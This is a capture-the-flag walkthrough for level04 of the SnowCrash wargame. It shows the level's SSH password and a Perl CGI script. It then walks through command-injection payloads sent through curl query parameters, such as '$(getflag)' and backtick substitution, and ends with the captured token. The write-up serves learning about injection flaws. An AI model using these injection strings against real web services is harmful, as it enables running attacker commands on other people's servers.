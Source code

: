 ssh level04@ip -p 4242
pwd: qi0maab88jeaj46qoumi7maus

```
level04@SnowCrash:~$ file level04.pl
    a /usr/bin/perl script, ASCII text executable
```

In Perl, CGI(Common Gateway Interface) is a protocol for executing scripts via web requests.

an interface specification that enables web servers to execute an external program

```
level04@SnowCrash:~$ /usr/bin/perl level04.pl
Content-type: text/html


```

quick google on how Sending Parameters via [cURL](http://conqueringthecommandline.com/book/curl#uid105)
?param=

```
level04@SnowCrash:~$ curl localhost:4747?x=$(ls)
level04@SnowCrash:~$ curl localhost:4747?x=$(pwd)
```
then why not pass a getflag command

```
level04@SnowCrash:~$ curl localhost:4747?x=$(getflag)
Check
curl: (6) Couldn't resolve host 'flag.Here'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'your'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host ''
curl: (6) Couldn't resolve host 'Nope'
curl: (6) Couldn't resolve host 'there'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'no'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host 'here'
curl: (6) Couldn't resolve host 'for'
curl: (6) Couldn't resolve host 'you'
curl: (6) Couldn't resolve host 'sorry.'
curl: (6) Couldn't resolve host 'Try'
curl: (6) Couldn't resolve host 'again'
```

a quick googling on how to skip Special characters in cURL
https://stackoverflow.com/questions/10060093/special-characters-like-and-in-curl-post-data


You can use \ sign 
or single quotes
`curl localhost:4747?x='$(getflag)'`

other alternative of command substitution is using the ``
```
curl localhost:4747?x='`getflag`'
curl localhost:4747?x=\`getflag\`
```
or in the browser
http://10.12.100.98:4747/?x=`getflag`

token : ne2searoevaevoem4ov4ar8ap